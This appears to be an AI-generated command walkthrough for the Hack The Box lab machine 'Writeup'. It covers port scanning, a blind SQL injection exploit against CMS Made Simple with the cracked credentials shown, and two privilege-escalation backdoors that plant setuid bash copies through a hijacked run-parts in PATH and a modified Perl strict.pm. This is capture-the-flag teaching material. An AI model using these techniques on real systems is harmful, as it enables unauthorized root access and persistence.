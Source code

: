 Here's a **Markdown-formatted command reference** for the HTB machine **Writeup**, structured by phase with explanatory notes and clean formatting:

---

# 🧭 HTB: Writeup – Command Walkthrough

## 📌 Box Info
- **IP**: `10.10.10.138`
- **OS**: Linux (Debian-based)
- **Difficulty**: Easy
- **Initial Access**: Blind SQLi in CMS Made Simple
- **Privilege Escalation**: PATH hijack via `run-parts`
- **Extras**: Perl module hijack (Beyond Root)

---

## 🔎 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
```

### 🔍 Targeted Service & Script Scan
```bash
nmap -p 22,80 -sV -sC -oA scans/nmap_scripts 10.10.10.138
```

### 📄 robots.txt Discovery
```bash
curl http://10.10.10.138/robots.txt
```

---

## 🐚 Shell as jkr

### 💉 SQL Injection Exploit (Blind SQLi)
```bash
./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

### 🔑 Output Credentials
```
Username: jkr
Password: raykayjay9
```

### 🔐 SSH Login
```bash
ssh jkr@10.10.10.138
```

---

## 🔼 Privilege Escalation (jkr → root)

### 👥 Check Groups
```bash
id
```

### 📂 Writable Directories
```bash
ls -ld /usr/local/bin/ /usr/local/sbin/
```

### 🔍 Watch Processes with pspy
*(Upload and run `pspy`)*
```bash
./pspy64
```

### 🪤 Hijack `run-parts` in PATH
```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/0xdf\nchmod u+s /bin/0xdf' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

### 🔁 Reconnect to Trigger Payload
```bash
ssh jkr@10.10.10.138
```

### 🔓 Run Backdoored Bash
```bash
/bin/0xdf -p
```

---

## 🧠 Beyond Root – Perl Module Hijack

### 📂 Check Default Perl Modules
```bash
perl -MData::Dumper -e 'print Dumper \%INC'
```

### 📍 Print Perl Include Path
```bash
perl -e 'print join(":",@INC)'
```

### 📁 Create Writable Perl Include Directory
```bash
mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
```

### 📄 Copy and Modify `strict.pm`
```bash
cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/
```

Edit `/usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm` and insert:
```perl
system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
```

### 🧪 Trigger Again via SSH
```bash
ssh jkr@10.10.10.138
/bin/0xdf -p
```

---

Let me know if you'd like this turned into a downloadable Markdown file or auto-saved into a HTB write-up template!